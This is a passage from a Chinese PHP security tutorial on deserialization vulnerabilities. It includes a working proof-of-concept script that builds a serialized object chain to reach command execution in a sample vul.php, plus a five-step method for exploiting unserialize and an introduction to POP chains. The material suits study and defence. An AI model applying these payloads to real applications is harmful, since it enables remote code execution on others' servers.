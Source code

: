 
先分析下代码，$\_GET\['str'\] 获取 get 参数 str 值，然后传递给 unserialize 进行反序列化操作，这就是导致漏洞的地方。

那么我们该如何利用呢？审查整份代码，发现 Evil 类中的命令执行方法 run()，如果能控制其中的 $cmd 变量就可以实现远程命令执行。在 People 类的 \_\_construct 方法中有属性赋值操作，将 Student 对象赋值给 $type 属性。

同时，在 \_\_destruct 方法中有调用 run() 方法的操作，因此我们可以设法此这些操作关联起来，写出利用代码去生成用来实现命令执行的序列化字符串。

poc.php 利用代码如下：

```
<?php
class People {
private $type;
function __construct(){
$this->type = new Evil();
    }
  }
class Evil {
var $cmd = 'id';
  }
  $people = new People();
  $str = serialize($people);
echo $str;
?>
```

运行生成序列化字符串：

```
$ php poc.php
O:6:"People":1:{s:12:"Peopletype";O:4:"Evil":1:{s:3:"cmd";s:2:"id";}}
```

里面的 "Peopletype" 又被吃掉 \\x00 了，得补回去，然后将上述字符串作为 get 参数 $str 的值发送给 vul.php：

![Lark20210121-180531.png](https://s0.lgstatic.com/i/image/M00/8F/E1/Ciqc1GAJUtSAOq4oAAFC9pGx2M8332.png)

图 1 成功利用反序列化漏洞执行任意命令

总结下利用思路：

1.  寻找原程序中可利用的目标方法，比如包含 system、eval、exec 等危险函数的地方，正如示例中的 Evil 类；
    
2.  追踪调用第 1 步中方法的其他类方法/函数，正如示例中 People 类方法 \_\_destruct()；
    
3.  寻找可控制第 1 步方法的参数的其他类方法函数，正如示例中 People 类方法 \_\_construct()；
    
4.  编写 poc，构建恶意类对象，然后调用 serialize 函数去生成序列化字符串；
    
5.  将生成的序列化字符串传递给漏洞参数实现利用。
    

#### 2.POP 链构造

面向属性编程（Property-Oriented Programing，POP）利用现有执行环境中原有的代码序列（比如原程序中已定义或者可动态加载的对象属性、方法），将这些调用组合在一起形式特定的调用链，以达到特定目的的方法。这与二进制漏洞利用中的 ROP（Return-Oriented Progaming，面向返回编程）的原理是相似的。

其实前面利用魔术方法构建调用链的方法就算是 POP 链，只是比较简单，在真实的漏洞环境中，会复杂很多。
